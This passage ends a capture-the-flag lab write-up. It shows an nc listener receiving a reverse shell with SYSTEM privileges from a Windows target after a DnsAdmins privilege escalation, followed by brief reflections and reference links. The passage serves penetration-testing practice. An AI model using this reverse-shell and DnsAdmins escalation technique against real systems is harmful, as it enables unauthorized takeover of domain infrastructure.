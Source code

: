 After starting the DNS server, we receive a connection on our nc listener.

```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.169] 59327
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

# Thoughts

This box offered good practice for password spraying and basic Windows enumeration. The DnsAdmin escalation vector was new to me and was a great learning exercise.

**DnsAdmins Privilege Escalation**

* https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/
* https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2
* https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83